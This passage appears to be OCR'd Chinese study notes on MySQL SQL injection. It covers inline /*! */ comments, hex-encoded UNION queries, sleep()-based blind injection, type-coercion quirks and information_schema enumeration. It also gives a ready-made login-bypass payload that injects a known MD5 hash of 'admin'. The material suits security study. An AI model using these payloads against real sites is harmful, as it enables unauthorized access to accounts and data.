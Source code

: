     >mysql中的特色，注意有个 ！

    >/*！ */ 中的内容会被执行。

## 十四，十六进制转换
- select * from security.users where id=1 union /!select/ 1,2,`0x64617461626173652829`
    >mysql中会自动将16进制转换为字符串，并且自动为字符串加上引号，

    >使用时注意加上0x开头，表示为16进制数字。

    >database()的16进制表示  64617461626173652829

## 十五，count(*)函数
- count(*)函数用来统计查询结果数量 

## 十六，sleep()函数
- 可以实现一定时间的延迟，用来盲注。

## 十七，mysql对字符和数字比较的处理
- 注入时会遇到字符型和数字型，这里有必要了解一下mysql的处理机制。
    - 1，对于字符型向数字的转化匹配，自动截取前面的数字部分，即 ‘1abc’当做 1
    - 2，开头字符型和数字比较时，字符串当做零处理

## 十八，绕过md5比较的登录
- 一般站点不会直接保存用户的明文密码，而是将明文密码MD5加密后保存，在登录验证时，也是将输入的密码进行MD5加密，与数据库中保存的MD5值进行比较，如果一直就认证成功。

- 登录过程类似于：首先将用户提交的密码进行MD5加密，然后将用户名与加密后的密码 放入数据库查询

-  select  username_id from users where username='admin' and password=pass(已经MD5加密) limit 0,1;

    >这时候存在绕过漏洞：输入 用户名：xxx

    >密码：123' and 1=2 union select "admin" , "21232f297a57a5a743894a0e4a801fc3"  #

    >md5(admin)="21232f297a57a5a743894a0e4a801fc3"

## mysql中table schema的基本操作
- 首先要知道information_schema是什么，在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。

- 列出test数据库中所有的表名，类型(普通表还是view)和使用的引擎 
    - select table_name, table_type, engine <br>
    - FROM information_schema.tables <br>
    - WHERE table_schema = 'test' <br>
    - ORDER BY table_name DESC; <br>

    >解释： 对表的meta data的查询需要使用information_schema.tables， table_schema是数据库的名称，table_name是具体的表名，table_type指的是表的类型

## user()
- User( ) 这个函数, 是取得当前登陆的用户

